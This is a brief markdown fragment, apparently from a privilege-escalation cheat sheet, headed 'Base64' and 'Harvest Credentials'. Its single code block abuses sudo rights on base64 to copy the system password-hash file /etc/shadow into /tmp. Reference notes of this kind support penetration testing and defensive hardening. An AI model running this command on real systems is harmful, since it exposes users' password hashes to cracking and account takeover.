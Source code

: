 # Base64

## Harvest Credentials

```
user@debian:~$ sudo base64 /etc/shadow | base64 -d > /tmp/shadow
```